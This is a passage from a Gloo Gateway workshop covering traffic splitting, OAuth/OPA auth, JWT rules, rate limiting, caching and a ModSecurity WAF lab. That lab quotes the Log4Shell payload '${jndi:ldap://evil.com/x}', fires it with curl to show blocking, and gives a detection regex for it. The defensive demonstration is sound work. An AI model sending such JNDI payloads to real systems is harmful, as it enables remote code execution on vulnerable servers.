x-request-id: 67052060-3b22-4782-8078-1344b26a774a
server: envoy
```

You can see the `X-Request-Id` response header has been added correctly.

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("response transformation applied", () => {
  it('Checking \'X-Request-Id\' header', () => helpersHttp.checkHeaders({ host: `https://httpbin.example.com`, path: '/get', expectedHeaders: [{'key': 'x-request-id', 'value': '*'}]}));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/transformations/tests/x-request-id-response-header.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->

Let's apply the original `HTTPRoute` yaml:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

Let's delete the `RouteOption` object:
```bash
kubectl delete --context ${CLUSTER1} -n httpbin routeoption routeoption
```


## Lab 9 - Split traffic between 2 backend services <a name="lab-9---split-traffic-between-2-backend-services-"></a>

You can split traffic between different backends, with different weights.

It's useful to slowly introduce a new version.

Update the `HTTPRoute` resource to do the following:
- send 90% of the traffic to the `httpbin1` service
- send 10% of the traffic to the `httpbin2` service

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: httpbin1
          port: 8000
          weight: 90
        - name: httpbin2
          port: 8000
          weight: 10
EOF
```

Try to access the application several times, using the `/hostname` endpoint which returns the hostname of the pod that handled the request:

```shell
curl -k https://httpbin.example.com/hostname
```

Most of the time, the request will be sent to `httpbin1`:

```json,nocopy
{
  "hostname": "httpbin1-7c4498d4c4-ksxdm"
}
```

But sometimes, it will be sent to `httpbin2`:

```json,nocopy
{
  "hostname": "httpbin2-789dfb64d6-trsxw"
}
```

The traffic has been split as expected.

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("traffic split applied", () => {
  it('Checking text \'httpbin1\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/hostname', body: 'httpbin1', match: true }));
  it('Checking text \'httpbin2\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/hostname', body: 'httpbin2', match: true }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/traffic-split/tests/traffic-split.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->


## Lab 10 - Securing the access with OAuth <a name="lab-10---securing-the-access-with-oauth-"></a>

In this step, we're going to secure the access to the `httpbin` service using OAuth.

First, we need to create an `AuthConfig`, which is a CRD that contains authentication information. We've already got a secret named `oauth` that we can reference in this policy:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: enterprise.gloo.solo.io/v1
kind: AuthConfig
metadata:
  name: oauth
  namespace: httpbin
spec:
  configs:
    - oauth2:
        oidcAuthorizationCode:
          appUrl: "https://httpbin.example.com"
          callbackPath: /callback
          clientId: ${KEYCLOAK_CLIENT}
          clientSecretRef:
            name: oauth
            namespace: gloo-system
          issuerUrl: "${KEYCLOAK_URL}/realms/workshop/"
          logoutPath: /logout
          afterLogoutUrl: "https://httpbin.example.com/get"
          session:
            failOnFetchFailure: true
            redis:
              cookieName: keycloak-session
              options:
                host: redis:6379
          scopes:
          - email
          headers:
            idTokenHeader: jwt
          identityToken:
            claimsToHeaders:
              - claim: email
                header: X-Email
EOF
```


After that, you need to create a `RouteOption`, to reference the `AuthConfig`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption
  namespace: httpbin
spec:
  options:
    extauth:
      configRef:
        name: oauth
        namespace: httpbin
EOF
```

You can use this diagram to understand the order in which the different options are applied.



Finally, you need to update the `HTTPRoute` to use this `RouteOption`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      filters:
        - type: ExtensionRef
          extensionRef:
            group: gateway.solo.io
            kind: RouteOption
            name: routeoption
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

<!--bash
ATTEMPTS=1
timeout 60 bash -c 'while [[ "$(curl -m 2 --max-time 2 --insecure -s -o /dev/null -w ''%{http_code}'' https://httpbin.example.com/get)" != "302" ]]; do sleep 5; done'
export USER1_COOKIE=$(node tests/keycloak-token.js "https://httpbin.example.com/get" user1)
export USER2_COOKIE=$(node tests/keycloak-token.js "https://httpbin.example.com/get" user2)
ATTEMPTS=1
until ([ ! -z "$USER2_COOKIE" ] && [[ $USER2_COOKIE != *"dummy"* ]]) || [ $ATTEMPTS -gt 20 ]; do
  printf "."
  ATTEMPTS=$((ATTEMPTS + 1))
  sleep 3
  export USER2_COOKIE=$(node tests/keycloak-token.js "https://httpbin.example.com/get" user2)
done
ATTEMPTS=1
until ([ ! -z "$USER1_COOKIE" ] && [[ $USER1_COOKIE != *"dummy"* ]]) || [ $ATTEMPTS -gt 20 ]; do
  printf "."
  ATTEMPTS=$((ATTEMPTS + 1))
  sleep 3
  export USER1_COOKIE=$(node tests/keycloak-token.js "https://httpbin.example.com/get" user1)
done
echo "User1 token: $USER1_COOKIE"
echo "User2 token: $USER2_COOKIE"
-->

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Authentication is working properly", function () {
  const cookieString = process.env.USER1_COOKIE;

  it("The httpbin page isn't accessible without authenticating", () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/get', retCode: 302 }));

  it("The httpbin page is accessible after authenticating", () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString }], retCode: 200 }));
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/extauth-oauth/tests/authentication.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Claim to header is working properly", function() {
  const cookieString = process.env.USER2_COOKIE;
  it('The new header has been added', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString }], body: 'user2@solo.io' }));
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/extauth-oauth/tests/header-added.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->

If you refresh the web browser, you will be redirected to the authentication page.

If you use the username `user1` and the password `password` you should be redirected back to the `httpbin` application.

Notice that we are also extracting information from the `email` claim, and putting it into a new header. This can be used for different things during our authz/authn flow, but most importantly we don't need any jwt-decoding library in the application anymore!

You can also perform authorization using OPA.

First, you need to create a `ConfigMap` with the policy written in rego:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ConfigMap
metadata:
  name: allow-solo-email-users
  namespace: httpbin
data:
  policy.rego: |-
    package test

    default allow = false

    allow {
        [header, payload, signature] = io.jwt.decode(input.state.jwt)
        endswith(payload["email"], "@solo.io")
    }
EOF
```

Then, you need to update the `AuthConfig` object to add the authorization step:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: enterprise.gloo.solo.io/v1
kind: AuthConfig
metadata:
  name: oauth
  namespace: httpbin
spec:
  configs:
    - oauth2:
        oidcAuthorizationCode:
          appUrl: "https://httpbin.example.com"
          callbackPath: /callback
          clientId: ${KEYCLOAK_CLIENT}
          clientSecretRef:
            name: oauth
            namespace: gloo-system
          issuerUrl: "${KEYCLOAK_URL}/realms/workshop/"
          logoutPath: /logout
          afterLogoutUrl: "https://httpbin.example.com/get"
          session:
            failOnFetchFailure: true
            redis:
              cookieName: keycloak-session
              options:
                host: redis:6379
          scopes:
          - email
          headers:
            idTokenHeader: jwt
          identityToken:
            claimsToHeaders:
              - claim: email
                header: X-Email
    - opaAuth:
        modules:
        - name: allow-solo-email-users
          namespace: httpbin
        query: "data.test.allow == true"
EOF
```

Refresh the web page. `user1` shouldn't be allowed to access it anymore since the user's email ends with `@example.com`.
<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Authentication is working properly", function () {

  const cookieString_user1 = process.env.USER1_COOKIE;
  const cookieString_user2 = process.env.USER2_COOKIE;

  it("The httpbin page isn't accessible with user1", () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString_user1 }], retCode: "keycloak-session=dummy" == cookieString_user1 ? 302 : 403 }));
  it("The httpbin page is accessible with user2", () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString_user2 }], retCode: 200 }));

});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/extauth-oauth/tests/authorization.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->
If you open the browser in incognito and login using the username `user2` and the password `password`, you will now be able to access it since the user's email ends with `@solo.io`.


## Lab 11 - Use the transformation filter to manipulate headers <a name="lab-11---use-the-transformation-filter-to-manipulate-headers-"></a>


In this step, we're going to use a regular expression to extract a part of an existing header and to create a new one:

Let's update the `RouteOption` to extract the domain name from the email of the user.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption
  namespace: httpbin
spec:
  options:
    extauth:
      configRef:
        name: oauth
        namespace: httpbin
    stagedTransformations:
      regular:
        requestTransforms:
        - requestTransformation:
            transformationTemplate:
              extractors:
                organization:
                  header: 'X-Email'
                  regex: '.*@(.*)$'
                  subgroup: 1
              headers:
                x-organization:
                  text: "{{ organization }}"
EOF
```

If you refresh the web page, you should see a new `X-Organization` header added to the request with the value `solo.io`

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Transformation is working properly", function() {
  const cookieString = process.env.USER2_COOKIE;
  it('The new header has been added', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString }], body: 'X-Organization' }));
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/advanced-transformations/tests/header-added.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->


## Lab 12 - Apply rate limiting to the Gateway <a name="lab-12---apply-rate-limiting-to-the-gateway-"></a>

In this step, we're going to apply rate limiting to the Gateway to only allow 3 requests per minute for the users of the `solo.io` organization.

First, we need to create a `RateLimitConfig` object to define the limits:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: ratelimit.solo.io/v1alpha1
kind: RateLimitConfig
metadata:
  name: limit-users
  namespace: httpbin
spec:
  raw:
    setDescriptors:
      - simpleDescriptors:
          - key: organization
            value: solo.io
        rateLimit:
          requestsPerUnit: 3
          unit: MINUTE
    rateLimits:
    - setActions:
      - requestHeaders:
          descriptorKey: organization
          headerName: X-Organization
EOF
```

Finally, you need to update the `RouteOption` to use this `RateLimitConfig`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption
  namespace: httpbin
spec:
  options:
    extauth:
      configRef:
        name: oauth
        namespace: httpbin
    stagedTransformations:
      regular:
        requestTransforms:
        - requestTransformation:
            transformationTemplate:
              extractors:
                organization:
                  header: 'X-Email'
                  regex: '.*@(.*)$'
                  subgroup: 1
              headers:
                x-organization:
                  text: "{{ organization }}"
    rateLimitConfigs:
      refs:
      - name: limit-users
        namespace: httpbin
EOF
```

Refresh the web page multiple times.

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Rate limiting is working properly", function() {
  const cookieString = process.env.USER2_COOKIE;
  it('The httpbin page should be rate limited', () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString }], retCode: 429 }));
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/ratelimiting/tests/rate-limited.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->

You should get a `200` response code the first 3 times and a `429` response code after.

Let's apply the original `HTTPRoute` yaml:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

Let's delete the `RouteOption` object:
```bash
kubectl delete --context ${CLUSTER1} -n httpbin routeoption routeoption
```


## Lab 13 - Use the JWT filter to validate JWT and create headers from claims <a name="lab-13---use-the-jwt-filter-to-validate-jwt-and-create-headers-from-claims-"></a>

In this step, we're going to validate the JWT token and to create a new header from the `email` claim.

You can restrict a request's access based on the claims and scopes in a JWT. `Claims` are key-value pairs that provide identity details, such as the subject's user ID, the entity that issued the token, and expiration time. `Scopes` are strings that indicate the permissions granted to the token holder.

We need to create an `Upstream` representing Keycloak:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gloo.solo.io/v1
kind: Upstream
metadata:
  name: keycloak
  namespace: gloo-system
spec:
  static:
    hosts:
      - addr: ${HOST_KEYCLOAK}
        port: ${PORT_KEYCLOAK}
EOF
```

Then, we need to create a `VirtualHostOption` to validate the JWT token and extract the `email` claim.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: VirtualHostOption
metadata:
  name: jwt
  namespace: gloo-system
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: Gateway
    name: http
    namespace: gloo-system
    sectionName: https-httpbin
  options:
    jwtStaged:
      beforeExtAuth:
        providers:
          keycloak:
            issuer: ${KEYCLOAK_URL}/realms/workshop
            tokenSource:
              headers:
              - header: jwt
            jwks:
              remote:
                url: ${KEYCLOAK_URL}/realms/workshop/protocol/openid-connect/certs
                upstreamRef:
                  name: keycloak
                  namespace: gloo-system
            claimsToHeaders:
            - claim: email
              header: X-Email
EOF
```

This is targeting the `https-httpbin` section of the `Gateway`.

Try accessing the `httpbin` application without any token.

```shell
curl -k https://httpbin.example.com/get
```

You should get a `Jwt is missing` error message.

Let's get a JWT token:

```bash
export USER1_COOKIE_JWT=$(curl -Ssm 10 --fail-with-body \
  -d "client_id=gloo-ext-auth" \
  -d "client_secret=hKcDcqmUKCrPkyDJtCw066hTLzUbAiri" \
  -d "username=user1" \
  -d "password=password" \
  -d "grant_type=password" \
  "$KEYCLOAK_URL/realms/workshop/protocol/openid-connect/token" |
  jq -r .access_token)
```

Now, you should be able to access it:

```shell
curl -k https://httpbin.example.com/get -H "jwt: ${USER1_COOKIE_JWT}"
```

Here is the expected output:

```json,nocopy
{
  "args": {},
  "headers": {
    "Accept": [
      "*/*"
    ],
    "Host": [
      "httpbin.example.com"
    ],
    "User-Agent": [
      "curl/8.5.0"
    ],
    "X-Email": [
      "user1@example.com"
    ],
    "X-Envoy-Expected-Rq-Timeout-Ms": [
      "15000"
    ],
    "X-Forwarded-Proto": [
      "https"
    ],
    "X-Request-Id": [
      "3eda8433-741d-40fd-887e-b6dddca89a3d"
    ]
  },
  "method": "GET",
  "origin": "10.101.0.18:60788",
  "url": "https://httpbin.example.com/get"
}
```

You should see a new `X-Email` header added to the request with the value `user1@example.com`

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Claim to header is working properly", function() {
  const jwtString = process.env.USER1_COOKIE_JWT;
  it('The new header has been added', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'jwt', value: jwtString }], body: '"X-Email":' }));
  it('The new header has value', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'jwt', value: jwtString }], body: '"user1@example.com"' }));
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/jwt/tests/header-added.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->

We can also update the `VirtualHostOption` to add a RBAC rule to only allow a user with the email `user2@solo.io` to access the application.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: VirtualHostOption
metadata:
  name: jwt
  namespace: gloo-system
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: Gateway
    name: http
    namespace: gloo-system
    sectionName: https-httpbin
  options:
    jwtStaged:
      beforeExtAuth:
        providers:
          keycloak:
            issuer: ${KEYCLOAK_URL}/realms/workshop
            tokenSource:
              headers:
              - header: jwt
            jwks:
              remote:
                url: ${KEYCLOAK_URL}/realms/workshop/protocol/openid-connect/certs
                upstreamRef:
                  name: keycloak
                  namespace: gloo-system
            claimsToHeaders:
            - claim: email
              header: X-Email
    rbac:
      policies:
        viewer:
          principals:
          - jwtPrincipal:
              claims:
                email: user2@solo.io
EOF
```

Try accessing the `httpbin` application again.

```shell
curl -k https://httpbin.example.com/get -H "jwt: ${USER1_COOKIE_JWT}"
```

You should get a `RBAC: access denied` error message.

Let's get a JWT token for the second user.

We will use gloo to add conditional access to the `httpbin` service based on the `email` scope and claim in the JWT token.

```bash
export USER2_COOKIE_JWT=$(curl -Ssm 10 --fail-with-body \
  -d "client_id=gloo-ext-auth" \
  -d "client_secret=hKcDcqmUKCrPkyDJtCw066hTLzUbAiri" \
  -d "username=user2" \
  -d "password=password" \
  -d "grant_type=password" \
  "$KEYCLOAK_URL/realms/workshop/protocol/openid-connect/token" |
  jq -r .access_token)
```

You should be able to access the application with this user.

```shell
curl -k https://httpbin.example.com/get -H "jwt: ${USER2_COOKIE_JWT}"
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Only User2 can access httpbin", function() {
  const jwt1String = process.env.USER1_COOKIE_JWT;
  it('User1 access is refused', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'jwt', value: jwt1String }], body: 'RBAC: access denied' }));
  const jwt2String = process.env.USER2_COOKIE_JWT;
  it('User2 access is allowed', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'jwt', value: jwt2String }], body: '"user2@solo.io"' }));
});

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/jwt/tests/only-user2-allowed.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->

Let's delete the `VirtualHostOption` we've created:

```bash
kubectl --context ${CLUSTER1} -n gloo-system delete virtualhostoption jwt
```


## Lab 14 - Use the Web Application Firewall filter <a name="lab-14---use-the-web-application-firewall-filter-"></a>

A web application firewall (WAF) protects web applications by monitoring, filtering, and blocking potentially harmful traffic and attacks that can overtake or exploit them.

Gloo Gateway includes the ability to enable the ModSecurity Web Application Firewall for any incoming and outgoing HTTP connections.

An example of how using Gloo Gateway we'd easily mitigate the recent Log4Shell vulnerability ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)), which for many enterprises was a major ordeal that took weeks and months of updating all services.

The Log4Shell vulnerability impacted all Java applications that used the log4j library (common library used for logging) and that exposed an endpoint. You could exploit the vulnerability by simply making a request with a specific header. In the example below, we will show how to protect your services against the Log4Shell exploit.

Using the Web Application Firewall capabilities you can reject requests containing such headers.

Log4Shell attacks operate by passing in a Log4j expression that could trigger a lookup to a remote server, like a JNDI identity service. The malicious expression might look something like this: `${jndi:ldap://evil.com/x}`. It might be passed in to the service via a header, a request argument, or a request payload. What the attacker is counting on is that the vulnerable system will log that string using log4j without checking it. That's what triggers the destructive JNDI lookup and the ultimate execution of malicious code.

You need to create the following `RouteOption`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: waf
  namespace: gloo-system
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: HTTPRoute
    name: httpbin
  options:
    waf:
      customInterventionMessage: 'Log4Shell malicious payload'
      ruleSets:
      - ruleStr: |
          SecRuleEngine On
          SecRequestBodyAccess On
          SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*
            "@rx \\\${jndi:(?:ldaps?|iiop|dns|rmi)://"
            "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

As you can see, this `RouteOption` targets the parent `HTTPRoute`. That way, the WAF rule is applied to all the traffic targetting the `httpbin` application.

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("WAF is working properly", function() {
  it('The request has been blocked', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', headers: [{key: 'User-Agent', value: '${jndi:ldap://evil.com/x}'}], body: 'Log4Shell malicious payload' }));
});
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/waf/tests/waf.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->

Run the following command to simulate an attack:

```bash
curl -H "User-Agent: \${jndi:ldap://evil.com/x}" -k "https://httpbin.example.com/get" -i
```

The request should be rejected:

```http,nocopy
HTTP/2 403 
content-length: 27
content-type: text/plain
date: Tue, 05 Apr 2022 10:20:06 GMT
server: istio-envoy

Log4Shell malicious payload
```

Let's delete the `RouteOption` we've created:

```bash
kubectl delete --context ${CLUSTER1} -n gloo-system routeoption waf
```


## Lab 15 - Use the `cache-control` response header to cache responses <a name="lab-15---use-the-`cache-control`-response-header-to-cache-responses-"></a>

An HTTP or HTTPS listener on your gateway can be configured to cache responses for upstream services.
When the listener routes a request to an upstream service, the response from the upstream is automatically cached by the caching server if it contains a `cache-control` response header.
All subsequent requests receive the cached response until the cache entry expires.

Check that we have a caching service running in the Gloo Gateway installation:

```shell
kubectl --context ${CLUSTER1} -n gloo-system get deploy caching-service
```

You should see a healthy deployment of the caching service:

```,nocopy
NAME              READY   UP-TO-DATE   AVAILABLE   AGE
caching-service   1/1     1            1           166m
```

This service is responsible for creating the cached responses in the backing Redis datastore when an eligible response is being processed.

The **httpbin** application has some utility endpoints we can use to test that caching is applied.
First of all, let's make sure that caching is *not* being applied by making a request to the `/cache` endpoint, passing a cache time-to-live (TTL) value of 10 seconds that we want the service to use in the response `cache-control` header:

```shell
curl -ksSD - -o /dev/null https://httpbin.example.com/cache/10
```

We'll get a response like this back, which includes the `cache-control` header set by the application with a value `max-age=10`:

```http,nocopy
HTTP/2 200 
access-control-allow-credentials: true
access-control-allow-origin: *
cache-control: public, max-age=10
content-type: application/json; charset=utf-8
date: Mon, 29 Jul 2024 14:10:48 GMT
content-length: 513
x-envoy-upstream-service-time: 0
server: envoy
```

Send a second request within that cache TTL of 10 seconds and look at the response:

```shell
curl -ksSD - -o /dev/null https://httpbin.example.com/cache/10
```

```http,nocopy
HTTP/2 200 
access-control-allow-credentials: true
access-control-allow-origin: *
cache-control: public, max-age=10
content-type: application/json; charset=utf-8
date: Mon, 29 Jul 2024 14:10:53 GMT
content-length: 513
x-envoy-upstream-service-time: 0
server: envoy
```

See that the timestamp in the `date` headers of the two responses are different, meaning that we got a fresh response back from the **httpbin** application each time.

<!--bash
cat <<'EOF' > ./test.js
const chaiHttp = require("chai-http");
const chai = require("chai");
const crypto = require("crypto")
const expect = chai.expect;

chai.use(chaiHttp);
process.env.NODE_TLS_REJECT_UNAUTHORIZED = '0';

const httpbin = `https://httpbin.example.com`;
const cachepath = '/cache/1';
var path_key;

describe("response caching", function() {

  // Make the first request whose response would be cached if enabled
  beforeEach(function(done) {
    path_key = crypto.randomUUID();
    chai.request(httpbin).get(cachepath).query({key: path_key}).end((err, response) => {
      if (err) return done(err);
      done();
    });
  });

  it('returns a fresh response within cache TTL', function(done) {
    setTimeout(() => {
      chai.request(httpbin).get(cachepath).query({key: path_key}).end((err, response) => {
        if (err) return done(err);
        try {
          expect(response).to.have.status(200);
          expect(response).to.not.have.header('age');
          done();
        } catch (e) {
          done(e);
        }
      });
    }, 100);
  });

})

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/caching/tests/caching-doesnt-apply.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=10 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->

In this example we'll configure caching on all routes processed by the `Gateway` that we have already set up.
We do this by defining a `HttpListenerOption` resource that includes a reference to the caching server:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: HttpListenerOption
metadata:
  name: cache
  namespace: gloo-system
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: Gateway
    name: http
  options:
    caching:
      cachingServiceRef:
        name: caching-service
        namespace: gloo-system
EOF
```

Note that this refers to the `Gateway` resource as a whole, so it will apply to all listeners on that gateway.
We can also restrict it to a particular listener by including a value for `sectionName` corresponding to the `name` of a given listener.

Let's test this configuration by making three requests to the `/cache` endpoint with a 10s cache TTL value, waiting 6 seconds between requests:

```shell
curl -ksSD - -o /dev/null https://httpbin.example.com/cache/10
sleep 6
curl -ksSD - -o /dev/null https://httpbin.example.com/cache/10
sleep 6
curl -ksSD - -o /dev/null https://httpbin.example.com/cache/10
```

Check the responses:

```http,nocopy
HTTP/2 200 
access-control-allow-credentials: true
access-control-allow-origin: *
cache-control: public, max-age=10
content-type: application/json; charset=utf-8
date: Mon, 29 Jul 2024 14:25:05 GMT
content-length: 513
x-envoy-upstream-service-time: 0
server: envoy

HTTP/2 200 
access-control-allow-credentials: true
cache-control: public, max-age=10
x-envoy-upstream-service-time: 0
access-control-allow-origin: *
date: Mon, 29 Jul 2024 14:25:05 GMT
content-type: application/json; charset=utf-8
content-length: 513
age: 6
server: envoy

HTTP/2 200 
access-control-allow-credentials: true
access-control-allow-origin: *
cache-control: public, max-age=10
content-type: application/json; charset=utf-8
date: Mon, 29 Jul 2024 14:25:17 GMT
content-length: 513
x-envoy-upstream-service-time: 0
server: envoy
```

<!--bash
cat <<'EOF' > ./test.js
const chaiHttp = require("chai-http");
const chai = require("chai");
const crypto = require("crypto")
const expect = chai.expect;

chai.use(chaiHttp);
process.env.NODE_TLS_REJECT_UNAUTHORIZED = '0';

const httpbin = `https://httpbin.example.com`;
const cachepath = '/cache/1';
var path_key;

describe("response caching", function() {
  this.timeout(3000); // The test needs more than default (2secs)

  // Make the first request whose response will be cached
  beforeEach(function(done) {
    path_key = crypto.randomUUID();
    chai.request(httpbin).get(cachepath).query({key: path_key}).end((err, response) => {
      if (err) return done(err);
      done();
    });
  });

  it('returns a cached response within cache TTL', function(done) {
    setTimeout(() => {
      chai.request(httpbin).get(cachepath).query({key: path_key}).end((err, response) => {
        if (err) return done(err);
        try {
          expect(response).to.have.status(200);
          expect(response).to.have.header('age');
          done();
        } catch (e) {
          done(e);
        }
      });
    }, 100);
  });

  it('returns a fresh response beyond cache TTL', function(done) {
    setTimeout(() => {
      chai.request(httpbin).get(cachepath).query({key: path_key}).end((err, response) => {
        if (err) return done(err);
        try {
          expect(response).to.have.status(200);
          expect(response).to.not.have.header('age');
          done();
        } catch (e) {
          done(e);
        }
      });
    }, 2000);
  });

})

EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/caching/tests/caching-applies.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=200 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->

Notice that the first two responses have the same `date` header showing that the response for the first request was also returned as the response for the second request.
The second response also has a new `age` header, corresponding to how long the response has been cached for.

The third response has a different `date` timestamp and no `age` header:
this request was made 12 seconds after the first, but the cache entry had expired 10 seconds after the original request, so the third request did not receive a cached response.

Let's delete the `HttpListenerOption` we created:

```bash
kubectl --context ${CLUSTER1} -n gloo-system delete httplisteneroption cache
```


## Lab 16 - Deploy and use waypoint <a name="lab-16---deploy-and-use-waypoint-"></a>


Istio Ambient Mesh is using a proxy called Waypoint (based on Envoy) to provide L7 capabilities.

You can use Gloo Gateway as a Waypoint to get even more L7 features available.

To demonstrate it, let's deploy a Waypoint proxy in the `httpbin` namespace.

```bash
